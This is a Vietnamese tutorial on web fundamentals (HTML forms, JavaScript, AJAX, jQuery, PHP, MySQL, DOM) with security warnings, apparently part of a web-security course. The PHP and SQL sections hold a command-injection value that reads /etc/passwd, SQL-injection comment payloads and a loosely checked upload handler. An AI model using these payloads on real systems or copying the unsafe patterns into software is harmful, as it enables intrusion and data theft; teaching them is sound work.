





# Bài 2: Tìm hiểu về cách hoạt động website

---

## 1. Nguyên tắc hoạt động của Web

### 1.1 Mô hình Client-Server

Khi bạn truy cập một trang web, trình duyệt (client) gửi một **HTTP Request** đến **Web Server**. Server xử lý yêu cầu, có thể truy vấn **Database**, rồi trả về **HTTP Response** (thường là HTML, JSON,...).

```
Client (Browser)
    |
    |-- HTTP Request -->  Web Server (Apache / Nginx / IIS / Tomcat)
    |                          |
    |                          |-- Query --> Database (MySQL / MongoDB / MariaDB)
    |                          |<-- Result --
    |<-- HTTP Response --------|
```

**Các web server phổ biến:** Apache HTTP Server, Nginx, Microsoft IIS, Apache Tomcat.

**Các database phổ biến:** MySQL, MariaDB, Microsoft SQL Server, MongoDB.

---

### 1.2 Mô hình MVC (Model - View - Controller)

MVC là kiến trúc phần mềm phổ biến giúp tách biệt logic xử lý, dữ liệu và giao diện.



| Thành phần | Vai trò |
|---|---|
| **Model** | Quản lý dữ liệu, tương tác với database, đảm bảo tính toàn vẹn dữ liệu |
| **View** | Hiển thị dữ liệu ra giao diện (HTML, XML,...) |
| **Controller** | Nhận request từ người dùng, xử lý logic, gọi Model và trả kết quả cho View |

!!! note "Lưu ý"
    Controller **không** trực tiếp truy cập database. Nó thông qua Model. View **không** chứa logic xử lý — chỉ hiển thị dữ liệu đã được xử lý.

---

## 2. HTML

### 2.1 Giới thiệu

HTML (HyperText Markup Language) là ngôn ngữ đánh dấu chuẩn để tạo trang web. Trình duyệt đọc các thẻ (tag) HTML và hiển thị nội dung tương ứng — bản thân các thẻ không được hiển thị ra màn hình.

Tham khảo chuẩn: [https://www.w3.org/html/](https://www.w3.org/html/)

### 2.2 Cấu trúc trang web cơ bản

```html
<!DOCTYPE html>          <!-- Khai báo loại tài liệu là HTML5 -->
<html>
  <head>
    <!-- Metadata: tiêu đề, liên kết CSS, JS,... -->
    <title>Page Title</title>
  </head>
  <body>
    <!-- Nội dung hiển thị trên trang -->
    <h1>This is a heading</h1>
    <p>This is a paragraph.</p>
  </body>
</html>
```

---

### 2.3 HTML Form

Form dùng để thu thập dữ liệu từ người dùng và gửi lên server.

```html
<form action="/action.php" method="post" enctype="multipart/form-data">
  <label for="fname">First name:</label>
  <input type="text" id="fname" name="fname"><br><br>

  <label for="lname">Last name:</label>
  <input type="text" id="lname" name="lname"><br><br>

  <input type="submit" value="Submit">
</form>
```

#### Thuộc tính của Form

=== "action"
    Chỉ định URL mà dữ liệu form sẽ được gửi đến khi người dùng nhấn Submit.

    ```html
    <form action="/login.php">
    ```

=== "method"
    Chỉ định phương thức HTTP gửi dữ liệu.

    **GET:**

    - Dữ liệu được đính kèm vào URL dưới dạng query string: `/action.php?name=John&age=25`
    - Giới hạn khoảng 3000 ký tự
    - Có thể lưu bookmark, history
    - **Không dùng cho dữ liệu nhạy cảm** (password, thông tin thẻ tín dụng)

    **POST:**

    - Dữ liệu được đặt trong body của HTTP request, không hiển thị trên URL
    - Không giới hạn kích thước
    - Không thể bookmark
    - Dùng cho dữ liệu nhạy cảm

=== "name"
    Tên của form, dùng để tham chiếu form trong JavaScript.

    ```javascript
    document.forms["myForm"]["fname"].value;
    ```

=== "enctype"
    Quy định cách mã hóa dữ liệu khi gửi (chỉ áp dụng khi `method="post"`).

    | Giá trị | Mô tả |
    |---|---|
    | `application/x-www-form-urlencoded` | Mặc định. Mã hóa tất cả ký tự trước khi gửi |
    | `multipart/form-data` | Không mã hóa. **Bắt buộc** khi có upload file |
    | `text/plain` | Khoảng trắng thành `+`, các ký tự khác không mã hóa |

!!! warning "Bảo mật"
    Không bao giờ tin tưởng dữ liệu từ form phía client. Luôn kiểm tra và sanitize dữ liệu ở phía **server**.

---

#### Các thẻ con của Form

| Thẻ / Type | Mô tả |
|---|---|
| `<input type="text">` | Ô nhập văn bản |
| `<input type="password">` | Ô nhập mật khẩu (ẩn ký tự) |
| `<input type="hidden">` | Trường ẩn, người dùng không thấy nhưng vẫn gửi lên server |
| `<input type="submit">` | Nút gửi form |
| `<input type="reset">` | Nút đặt lại form về giá trị mặc định |
| `<input type="radio">` | Nút chọn một trong nhiều lựa chọn |
| `<input type="checkbox">` | Ô tích chọn nhiều lựa chọn |
| `<input type="number">` | Ô nhập số |
| `<select>` | Danh sách thả xuống |
| `<textarea>` | Vùng nhập văn bản nhiều dòng |
| `<datalist>` | Danh sách gợi ý cho input |

Tham khảo đầy đủ: [https://www.w3schools.com/html/html_form_elements.asp](https://www.w3schools.com/html/html_form_elements.asp)

---

## 3. JavaScript

### 3.1 Giới thiệu

JavaScript (JS) là ngôn ngữ lập trình thông dịch (interpreted), cấp cao, chạy trực tiếp trên trình duyệt. Trong kiến trúc web:

- **HTML** định nghĩa nội dung (cấu trúc)
- **CSS** định dạng giao diện (trình bày)
- **JavaScript** xử lý hành vi, tương tác (logic)

JS không chỉ dùng cho web — còn dùng cho server (Node.js), desktop, và database (MongoDB, CouchDB).

---

### 3.2 Vị trí đặt JS trong HTML

JS có thể đặt trong thẻ `<script>` ở `<head>` hoặc `<body>`, hoặc trong file `.js` bên ngoài.

```html
<!-- Inline trong file HTML -->
<script>
  function sayHello() {
    alert("Hello!");
  }
</script>

<!-- File JS bên ngoài (khuyến nghị) -->
<script src="app.js"></script>
```

!!! tip "Khuyến nghị"
    Nên đặt `<script src="...">` ở **cuối thẻ `<body>`** để trang tải nhanh hơn (HTML render xong trước, sau mới load JS). Hoặc dùng thuộc tính `defer` nếu đặt ở `<head>`:
    ```html
    <script src="app.js" defer></script>
    ```

**Ưu điểm dùng file JS riêng:**
- Tách biệt code với HTML
- Tái sử dụng code ở nhiều trang
- Dễ đọc và bảo trì
- Trình duyệt có thể **cache** file JS để tăng tốc độ tải trang

---

### 3.3 JS có thể làm gì với HTML?

```javascript
// Thay đổi nội dung HTML
document.getElementById("demo").innerHTML = "Hello JS";

// Thay đổi style (CSS)
document.getElementById("demo").style.fontSize = "35px";
document.getElementById("demo").style.color = "red";

// Ẩn element
document.getElementById("demo").style.display = "none";

// Hiện element
document.getElementById("demo").style.display = "block";
```

---

### 3.4 Hiển thị dữ liệu

```javascript
// Hiển thị trong HTML element (phổ biến nhất)
document.getElementById("demo").innerHTML = "Nội dung";

// Ghi thẳng vào HTML (cẩn thận: ghi đè toàn bộ trang nếu dùng sau khi load)
document.write("Hello");

// Hiện popup
window.alert("Thông báo!");

// In ra console của trình duyệt (dùng để debug)
console.log("Debug info");
```

---

### 3.5 Function (Hàm)

Hàm là khối code thực hiện nhiệm vụ cụ thể, được gọi khi:
- Có event xảy ra (click nút)
- Được gọi từ code JS khác
- Tự gọi (IIFE - Immediately Invoked Function Expression)

```javascript
// Định nghĩa hàm
function sum(a, b) {
    return a + b;
}

// Gọi hàm
var result = sum(4, 3);  // result = 7
document.getElementById("demo").innerHTML = result;
```

---

### 3.6 Object

```javascript
// Định nghĩa object
var person = {
    firstName: "John",
    lastName: "Doe",
    id: 5566,
    fullName: function() {
        return this.firstName + " " + this.lastName;
    }
};

// Truy cập thuộc tính
console.log(person.firstName);       // "John"
console.log(person["lastName"]);     // "Doe"

// Gọi phương thức
console.log(person.fullName());      // "John Doe"
```

!!! warning "Lưu ý quan trọng"
    **Không khai báo String, Number, Boolean như Object:**
    ```javascript
    // SAI - tạo object wrapper, gây lỗi so sánh không mong muốn
    var x = new String("Hello");
    var y = new Number(5);

    // ĐÚNG - dùng primitive type
    var x = "Hello";
    var y = 5;
    ```

---

### 3.7 Event

HTML Event là những sự kiện xảy ra với HTML element mà JS có thể phản ứng lại.

| Event | Mô tả |
|---|---|
| `onchange` | Khi giá trị của element thay đổi |
| `onclick` | Khi người dùng click vào element |
| `onmouseover` | Khi chuột di chuyển vào element |
| `onmouseout` | Khi chuột rời khỏi element |
| `onkeydown` | Khi người dùng nhấn phím |
| `onload` | Khi trình duyệt load xong trang |

**Cách gán event:**

```html
<!-- Cách 1: Inline trực tiếp trong HTML -->
<button onclick="alert('Bạn đã click!')">Click me</button>

<!-- Cách 2: Gọi hàm -->
<button onclick="handleClick()">Click me</button>

<script>
function handleClick() {
    alert("Bạn đã click!");
}
</script>
```

---

### 3.8 Validation Form với JavaScript

```html
<form name="myForm" action="/action_page.php" onsubmit="return validateForm()" method="post">
    Tên: <input type="text" name="fname">
    <input type="submit" value="Submit">
</form>

<script>
function validateForm() {
    var x = document.forms["myForm"]["fname"].value;
    if (x === "") {
        alert("Tên không được để trống!");
        return false;  // Ngăn form submit
    }
    return true;
}
</script>
```

**Cách đơn giản hơn — dùng thuộc tính `required` của HTML5:**

```html
<form action="/action_page.php" method="post">
    <input type="text" name="fname" required>
    <input type="submit" value="Submit">
</form>
```

Trình duyệt sẽ tự động hiện thông báo lỗi nếu field bỏ trống.

---

### 3.9 Kiểm tra dữ liệu (Data Validation)

Mục đích: đảm bảo input chính xác, rõ ràng và hữu dụng.



| Loại | Thực hiện ở đâu | Ưu điểm | Nhược điểm |
|---|---|---|---|
| **Client-side** | Trình duyệt (JS) | Phản hồi nhanh, không cần request | Có thể bypass bằng cách tắt JS |
| **Server-side** | Server (PHP, Node...) | An toàn, không thể bypass | Cần round-trip đến server |

!!! danger "Quan trọng về bảo mật"
    **Không bao giờ chỉ dùng client-side validation.** Người dùng có thể tắt JavaScript hoặc gửi request trực tiếp bằng tool (curl, Burp Suite,...). **Luôn validate ở server-side.**

---

## 4. AJAX

### 4.1 Giới thiệu

AJAX (Asynchronous JavaScript And XML) không phải ngôn ngữ lập trình mà là kỹ thuật kết hợp:
- **XMLHttpRequest (XHR)** — để giao tiếp với server
- **JavaScript** — để xử lý logic
- **HTML DOM** — để cập nhật giao diện

**Chức năng chính:**
- Đọc dữ liệu từ server **sau khi trang đã load xong**
- **Cập nhật một phần trang web** mà không cần reload toàn bộ
- Gửi dữ liệu đến server **"ngầm"** (background)



---

### 4.2 Ví dụ AJAX với GET

```javascript
function loadDoc() {
    var xhttp = new XMLHttpRequest();

    xhttp.onreadystatechange = function() {
        // readyState 4 = request hoàn thành
        // status 200 = OK
        if (this.readyState == 4 && this.status == 200) {
            document.getElementById("demo").innerHTML = this.responseText;
        }
    };

    // true = asynchronous (bất đồng bộ)
    xhttp.open("GET", "demo_get2.asp?fname=Henry&lname=Ford", true);
    xhttp.send();
}
```

### 4.3 Ví dụ AJAX với POST

```javascript
function loadDoc() {
    var xhttp = new XMLHttpRequest();

    xhttp.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            document.getElementById("demo").innerHTML = this.responseText;
        }
    };

    xhttp.open("POST", "demo_post2.asp", true);
    // Cần set Content-Type header khi gửi POST
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("fname=Henry&lname=Ford");
}
```

---

## 5. jQuery

### 5.1 Giới thiệu

jQuery là thư viện JavaScript giúp đơn giản hóa việc viết JS. Khẩu hiệu: **"Write less, do more"**.

Được sử dụng bởi Google, Microsoft, IBM, Netflix.

### 5.2 Cú pháp cơ bản

```javascript
$(selector).action()
```

- `$` — định nghĩa/truy cập jQuery
- `(selector)` — tìm HTML element (giống CSS selector)
- `action()` — hành động muốn thực hiện

```javascript
$(this).hide();          // Ẩn element hiện tại
$("p").hide();           // Ẩn tất cả thẻ <p>
$(".test").hide();       // Ẩn tất cả element có class="test"
$("#test").hide();       // Ẩn element có id="test"
```

### 5.3 Document Ready

Đảm bảo code chạy sau khi DOM đã load xong:

```javascript
// Cách đầy đủ
$(document).ready(function() {
    // Code ở đây
});

// Cách rút gọn (tương đương)
$(function() {
    // Code ở đây
});
```

### 5.4 jQuery Event

```javascript
// Gắn event đơn giản
$("p").click(function() {
    // xử lý khi click
});

// Gắn nhiều event cùng lúc
$("p").on({
    mouseenter: function() {
        $(this).css("background-color", "lightgray");
    },
    mouseleave: function() {
        $(this).css("background-color", "lightblue");
    },
    click: function() {
        $(this).css("background-color", "yellow");
    }
});
```

| Loại Event | Các event phổ biến |
|---|---|
| Mouse | `click`, `dblclick`, `mouseenter`, `mouseleave` |
| Keyboard | `keypress`, `keydown`, `keyup` |
| Form | `submit`, `change`, `focus`, `blur` |
| Document/Window | `load`, `resize`, `scroll`, `unload` |

### 5.5 jQuery AJAX

```javascript
// GET
$.get("demo_test.asp", function(data, status) {
    alert("Data: " + data + "\nStatus: " + status);
});

// POST
$.post("demo_test_post.asp",
    {
        name: "Donald Duck",
        city: "Duckburg"
    },
    function(data, status) {
        alert("Data: " + data + "\nStatus: " + status);
    }
);
```

---

## 6. PHP

### 6.1 Giới thiệu

PHP (PHP: Hypertext Preprocessor) là ngôn ngữ lập trình phía server (server-side), dùng để tạo web động. Đặc điểm:

- Miễn phí, nguồn mở
- Đa nền tảng: Windows, Linux, Unix, Mac OS
- Tương thích hầu hết web server: Apache, Nginx, IIS
- Hỗ trợ nhiều loại database
- Được dùng trong WordPress (blogging), Facebook (ban đầu)

### 6.2 Cú pháp cơ bản

```php
<?php
// Code PHP viết ở đây
$color = "red";
echo "My car is " . $color . "<br>";
ECHO "My house is " . $COLOR . "<br>";  // Hàm không phân biệt hoa/thường
// echo $COLOR;  // LỖI - biến CÓ phân biệt hoa/thường
?>
```

!!! note "Quy tắc phân biệt hoa/thường trong PHP"
    - **Keyword** (`if`, `else`, `while`,...), **hàm**, **class**: **KHÔNG** phân biệt hoa/thường
    - **Biến** (`$color`, `$Color`, `$COLOR`): **CÓ** phân biệt hoa/thường

### 6.3 SuperGlobal Variables

Biến SuperGlobal có thể truy cập từ bất kỳ đâu trong script PHP:

| Biến | Mô tả |
|---|---|
| `$GLOBALS` | Chứa tất cả biến global |
| `$_SERVER` | Thông tin về server và HTTP request |
| `$_REQUEST` | Dữ liệu từ GET, POST, COOKIE |
| `$_POST` | Dữ liệu gửi bằng phương thức POST |
| `$_GET` | Dữ liệu gửi bằng phương thức GET |
| `$_FILES` | Dữ liệu file upload |
| `$_ENV` | Biến môi trường |
| `$_COOKIE` | Dữ liệu cookie |
| `$_SESSION` | Dữ liệu session |

Một số thông tin hữu ích từ `$_SERVER`:

```php
echo $_SERVER['PHP_SELF'];         // Tên file script hiện tại
echo $_SERVER['SERVER_ADDR'];      // IP của server
echo $_SERVER['REQUEST_METHOD'];   // Phương thức request (GET/POST)
echo $_SERVER['HTTP_USER_AGENT'];  // Thông tin trình duyệt
echo $_SERVER['REMOTE_ADDR'];      // IP của client
```

### 6.4 Xử lý Form

```php
<!-- Form HTML -->
<form action="welcome_get.php" method="get">
    Name: <input type="text" name="name">
    E-mail: <input type="text" name="email">
    <input type="submit">
</form>
```

```php
<?php
// welcome_get.php
echo "Welcome " . $_GET["name"] . "<br>";
echo "Your email is: " . $_GET["email"];
?>
```

**Xử lý và validate dữ liệu an toàn hơn:**

```php
<?php
$name = $nameErr = "";

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if (empty($_POST["name"])) {
        $nameErr = "Name is required";
    } else {
        $name = test_input($_POST["name"]);
    }
}

function test_input($data) {
    $data = trim($data);           // Xóa khoảng trắng đầu/cuối
    $data = stripslashes($data);   // Xóa backslash
    $data = htmlspecialchars($data); // Chuyển ký tự HTML thành entities (chống XSS)
    return $data;
}
?>
```

### 6.5 Include và Require

Dùng để tái sử dụng code PHP từ file khác:

```php
<!-- Cú pháp -->
<?php include "menu.php"; ?>   // Phát cảnh báo nếu file không tìm thấy, tiếp tục thực thi
<?php require "config.php"; ?> // Phát lỗi và DỪNG thực thi nếu file không tìm thấy
```

```php
<!-- Ví dụ thực tế -->
<html>
<body>
    <div class="menu">
        <?php include "menu.php"; ?>
    </div>
    <h1>Welcome to my home page!</h1>
    <p>Some text.</p>
</body>
</html>
```

!!! tip "Khi nào dùng require thay vì include?"
    Dùng `require` cho các file **bắt buộc** phải có (config, database connection). Dùng `include` cho các file **tùy chọn** (sidebar, widget).

### 6.6 Upload File

```php
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

// Kiểm tra có phải ảnh thật không
if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check !== false) {
        echo "File is an image - " . $check["mime"];
        $uploadOk = 1;
    } else {
        echo "File is not an image.";
        $uploadOk = 0;
    }
}

// Thực hiện upload
if ($uploadOk == 0) {
    echo "Sorry, your file was not uploaded.";
} else {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
    } else {
        echo "Sorry, there was an error uploading your file.";
    }
}
?>
```

!!! danger "Bảo mật Upload File"
    Không validate file upload cẩn thận là lỗ hổng nghiêm trọng. Cần kiểm tra:
    - Extension file (chỉ cho phép `.jpg`, `.png`,...)
    - MIME type thực sự (không tin vào tên file)
    - Kích thước file
    - Không lưu file upload trong thư mục web-accessible nếu không cần thiết
    - Đổi tên file sau khi upload

### 6.7 Thực thi chương trình bên ngoài

PHP có các hàm cho phép chạy lệnh hệ điều hành:

```php
<?php
// exec() - chạy lệnh, trả về dòng cuối của output
$output = exec("ls -la");

// system() - chạy lệnh và in output trực tiếp
system("whoami");

// passthru() - tương tự system, dùng khi output là dữ liệu nhị phân
passthru("cat /etc/passwd");

// shell_exec() - chạy lệnh, trả về toàn bộ output
$result = shell_exec("uname -a");
echo $result;
?>
```

!!! danger "NGUY HIỂM - Command Injection"
    Đây là một trong những lỗ hổng nguy hiểm nhất. **Tuyệt đối không** đưa dữ liệu từ người dùng vào các hàm này mà không sanitize:
    ```php
    // NGUY HIỂM - Command Injection
    system("ping " . $_GET["host"]);
    // Attacker gửi: host=127.0.0.1; cat /etc/passwd

    // AN TOÀN hơn - dùng escapeshellarg()
    system("ping " . escapeshellarg($_GET["host"]));
    ```

---

## 7. MySQL

### 7.1 Giới thiệu

MySQL là hệ quản trị cơ sở dữ liệu quan hệ (RDBMS) phổ biến nhất khi kết hợp với PHP. Đặc điểm:
- Nhanh, tin cậy, dễ sử dụng
- Sử dụng chuẩn SQL
- Đa nền tảng
- Phát triển và hỗ trợ bởi Oracle

### 7.2 Kết nối và các thao tác CRUD

=== "Kết nối"
    ```php
    <?php
    $servername = "localhost";
    $username = "username";
    $password = "password";
    $dbname = "myDB";

    // Tạo kết nối (Object-oriented)
    $conn = new mysqli($servername, $username, $password, $dbname);

    // Kiểm tra kết nối
    if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
    }
    echo "Connected successfully";
    ?>
    ```

=== "INSERT"
    ```php
    <?php
    $sql = "INSERT INTO MyGuests (firstname, lastname, email)
            VALUES ('John', 'Doe', 'john@example.com')";

    if ($conn->query($sql) === TRUE) {
        $last_id = $conn->insert_id;
        echo "New record created. Last ID: " . $last_id;
    } else {
        echo "Error: " . $sql . "<br>" . $conn->error;
    }
    ?>
    ```

=== "SELECT"
    ```php
    <?php
    $sql = "SELECT id, firstname, lastname FROM MyGuests";
    $result = $conn->query($sql);

    if ($result->num_rows > 0) {
        while ($row = $result->fetch_assoc()) {
            echo "id: " . $row["id"] . " - Name: " . $row["firstname"] . " " . $row["lastname"] . "<br>";
        }
    } else {
        echo "0 results";
    }
    ?>
    ```

=== "UPDATE"
    ```php
    <?php
    $sql = "UPDATE MyGuests SET lastname='Doe' WHERE id=2";

    if ($conn->query($sql) === TRUE) {
        echo "Record updated successfully";
    } else {
        echo "Error updating record: " . $conn->error;
    }
    ?>
    ```

=== "DELETE"
    ```php
    <?php
    $sql = "DELETE FROM MyGuests WHERE id=3";

    if ($conn->query($sql) === TRUE) {
        echo "Record deleted successfully";
    } else {
        echo "Error deleting record: " . $conn->error;
    }
    ?>
    ```

### 7.3 Các câu lệnh SQL quan trọng

#### ORDER BY

```sql
SELECT column1, column2
FROM table_name
ORDER BY column1 ASC, column2 DESC;
```

#### UNION

Kết hợp kết quả từ hai hoặc nhiều SELECT. Số cột và kiểu dữ liệu phải tương thích:

```sql
SELECT column_name(s) FROM table1
UNION
SELECT column_name(s) FROM table2;
```

#### LIMIT / OFFSET

```sql
-- Lấy 5 dòng đầu tiên
SELECT * FROM table_name LIMIT 5;

-- Bỏ qua 10 dòng, lấy 5 dòng tiếp theo (pagination)
SELECT * FROM table_name LIMIT 5 OFFSET 10;
```

#### Comment trong SQL

Quan trọng trong bảo mật — attacker dùng comment để cắt bỏ phần còn lại của câu query:

```sql
-- MySQL, MSSQL, Oracle, PostgreSQL, SQLite
' OR '1'='1' -- comment
' OR '1'='1' /* comment */

-- MySQL only
' OR '1'='1' # comment

-- MS Access (null characters)
' OR '1'='1' %00
```

### 7.4 Information Schema

`information_schema` là database đặc biệt chứa metadata về toàn bộ database server:

```sql
-- Xem tất cả database
SELECT SCHEMA_NAME FROM information_schema.SCHEMATA;

-- Xem tất cả bảng trong một database
SELECT TABLE_NAME FROM information_schema.TABLES
WHERE TABLE_SCHEMA = 'myDB';

-- Xem tất cả cột của một bảng
SELECT COLUMN_NAME, DATA_TYPE
FROM information_schema.COLUMNS
WHERE TABLE_NAME = 'users';
```

!!! warning "Liên quan đến bảo mật"
    Trong tấn công SQL Injection, attacker thường khai thác `information_schema` để liệt kê toàn bộ cấu trúc database — tên database, tên bảng, tên cột — trước khi dump dữ liệu thực sự.

---

## 8. Document Object Model (DOM)

### 8.1 Giới thiệu

DOM (Document Object Model) là giao diện lập trình độc lập ngôn ngữ và nền tảng, cho phép truy cập và thay đổi nội dung, cấu trúc và style của HTML/XML document.



### 8.2 Thuộc tính DOM phổ biến

| Thuộc tính | Mô tả |
|---|---|
| `id` | Định danh duy nhất, dùng để truy xuất nhanh |
| `className` | Tên class, có thể dùng cho nhiều element |
| `tagName` | Tên thẻ HTML |
| `innerHTML` | HTML bên trong element (bao gồm các thẻ con) |
| `outerHTML` | HTML của cả element hiện tại (bao gồm chính nó) |
| `textContent` | Chỉ lấy nội dung text, không bao gồm thẻ |
| `attributes` | Tập hợp tất cả thuộc tính của element |
| `style` | Truy cập/thay đổi CSS inline |
| `value` | Giá trị của input element |

### 8.3 Phương thức DOM phổ biến

```javascript
// Tìm element
var el = document.getElementById("test-id");
var els = document.getElementsByTagName("h1");
var byName = document.getElementsByName("fname");

// Thay đổi thuộc tính
el.getAttribute("href");
el.setAttribute("href", "https://example.com");

// Thêm/xóa element
var newEl = document.createElement("p");
document.body.appendChild(newEl);
document.body.removeChild(newEl);
```

### 8.4 addEventListener

```javascript
// Cú pháp
element.addEventListener(event, function, useCapture);

// Ví dụ
element.addEventListener("click", myFunction);
element.addEventListener("click", function() {
    alert("Hello World!");
});

// Thêm event cho window
window.addEventListener("resize", function() {
    document.getElementById("demo").innerHTML = "Window resized!";
});

// Xóa event listener
element.removeEventListener("click", myFunction);
```

**Ưu điểm của `addEventListener` so với gán trực tiếp (`onclick=...`):**
- Không ghi đè handler đang có
- Có thể thêm nhiều handler cho cùng một event trên cùng một element
